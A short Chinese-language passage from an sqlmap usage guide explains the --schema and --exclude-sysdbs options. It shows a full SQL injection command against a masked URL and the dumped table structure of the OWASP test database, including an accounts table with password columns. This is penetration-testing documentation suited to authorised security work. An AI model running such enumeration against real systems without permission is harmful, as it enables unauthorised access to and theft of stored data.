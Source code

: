 列举数据库系统的架构

参数：–schema,–exclude-sysdbs

用户可以用此参数获取数据库的架构，包含所有的数据库，表和字段，以及各自的类型。

加上–exclude-sysdbs参数，将不会获取数据库自带的系统库内容。

MySQL例子：

$ python sqlmap.py -u "http://*******/sqlmap/mysql/get_int.php?id=1" --schema --batch --exclude-sysdbs
[...]
Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column  | Type|
+-------------+---------+
| cid | int(11) |
| mysignature | text|
| password| text|
| username| text|
+-------------+---------+

Database: owasp10
Table: blogs_table
[4 columns]
+--------------+----------+
| Column   | Type |
+--------------+----------+
| date | datetime |
| blogger_name | text |
| cid  | int(11)  |
| comment  | text |
+--------------+----------+

Database: owasp10
Table: hitlog
[6 columns]
+----------+----------+
| Column   | Type |
+----------+----------+
| date | datetime |
| browser  | text |
| cid  | int(11)  |
| hostname | text |
| ip   | text |
| referer  | text |
+----------+----------+

